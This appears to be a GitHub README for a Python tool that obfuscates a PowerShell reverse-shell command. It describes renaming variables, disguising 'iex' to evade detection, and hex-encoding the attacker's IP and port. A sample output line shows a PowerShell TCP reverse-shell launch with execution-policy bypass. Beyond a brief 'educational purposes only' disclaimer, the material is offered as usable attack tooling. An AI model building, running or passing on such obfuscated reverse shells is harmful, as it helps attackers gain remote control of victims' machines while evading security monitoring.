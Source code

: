 # Obfuscation Script for PowerShell Commands
This Python script takes a PowerShell command, obfuscates it, and replaces certain parts like IP addresses and ports with user-provided values in hexadecimal format. It is designed for users who want to modify PowerShell scripts for testing purposes or to better understand obfuscation techniques.

## Table of Contents

* Overview
* Prerequisites
* Installation
* Usage
* Functions Explanation
* get_user_input()
* obfuscate_script()
* random_string()
* replace_ip_and_port()
* ip_to_hex()
* convert_ips_to_hex()
* port_to_hex()
* convert_ports_to_hex()
* main()
* Example
* Disclaimer

## Overview
This script allows the user to input an IP address and port, then modifies a provided PowerShell script by:

* Obfuscating variable names.
* Replacing occurrences of iex to i''ex to make detection harder.
* Replacing placeholders for IP and port.
* Converting IP addresses and port numbers into hexadecimal format.

## Prerequisites
* Python 3.x
* Basic understanding of regular expressions and PowerShell scripting.

## Installation
Clone the repository and navigate to the project folder:
```bash
git https://github.com/mrmtwoj/ObfuscationPowerShellReverseshell.git
cd ObfuscationPowerShellReverseshell
```
## Usage
Run the script using the command:
```bash
python obfuscate_script.py

```
Follow the prompts to input the IP address and port, and the script will display the obfuscated PowerShell command.

## Functions Explanation
* get_user_input()
Purpose: Accepts user input for IP address and port, validating their formats.
## Validation:
+ Ensures the IP address is in the correct format (e.g., 192.168.1.1).
+ Ensures the port number is between 1 and 65535.
+ Raises: ValueError if the input is invalid.

## obfuscate_script()
* Purpose: Obfuscates variable names in the script and alters specific patterns.
## Details:
+ Uses regex to find all variables (excluding $PSHOME) and replaces them with randomly generated names.
+ Replaces occurrences of iex with i''ex to bypass some detection mechanisms.
+ Replaces occurrences of 'PS' with random UUID-like strings.

## random_string()
+ Purpose: Generates a random alphanumeric string of a specified length.
+ Parameters: length (default is 10).
+ Returns: A random string using ascii_letters and digits.

## replace_ip_and_port()
+ Purpose: Replaces placeholders for IP (*LHOST*) and port (*LPORT*) with the user-provided values.
+ Parameters: script, ip, port.

## ip_to_hex()
+ Purpose: Converts an IP address into its hexadecimal representation.
+ Parameters: ip (e.g., 192.168.1.1).
+ Returns: Hexadecimal string representation of the IP address.

## convert_ips_to_hex()
+ Purpose: Finds all IP addresses in the script and converts them to hexadecimal format.
+ Parameters: script.

## port_to_hex()
+ Purpose: Converts a port number to its hexadecimal representation.
+ Parameters: port.
+ Returns: Hexadecimal string of the port number.

## convert_ports_to_hex()
+ Purpose: Finds and converts all port numbers in the script (excluding 65535) to hexadecimal.
+ Parameters: script.

## main()
Purpose: The entry point of the script that coordinates user input, obfuscation, and replacements.

## Workflow:
+ Gets user input for IP and port.
+ Applies obfuscation to the PowerShell script.
+ Replaces placeholders with user inputs.
+ Converts IPs and ports to their hexadecimal representations.
+ Prints the final modified script.

## Example
Here’s an example of how to use the script:
```bash
Enter IP address: 192.168.1.10
Enter port: 8080
```

## Output (truncated for brevity):
```bash
Start-Process $PSHOME\powershell.exe -ArgumentList {-ep bypass -nop $client = New-Object System.Net.Sockets.TCPClient('0xc0a8010a',0x1f90);$stream = ...
```

## Disclaimer
This script is intended for educational purposes only. The use of this script for malicious purposes is strictly prohibited. Always ensure you have permission before testing on any network or system.









